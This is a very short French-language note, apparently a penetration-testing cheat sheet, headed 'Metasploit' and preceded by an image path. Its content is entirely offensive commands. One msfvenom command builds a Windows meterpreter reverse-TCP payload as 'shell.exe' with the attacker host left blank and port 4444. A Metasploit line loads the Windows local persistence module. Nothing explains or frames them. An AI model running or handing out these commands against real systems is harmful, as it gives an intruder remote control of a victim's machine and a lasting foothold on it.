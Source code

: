## Metasploit

Generer le payload

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f exe -o shell.exe
```

```sg
use exploit/windows/local/persistence
```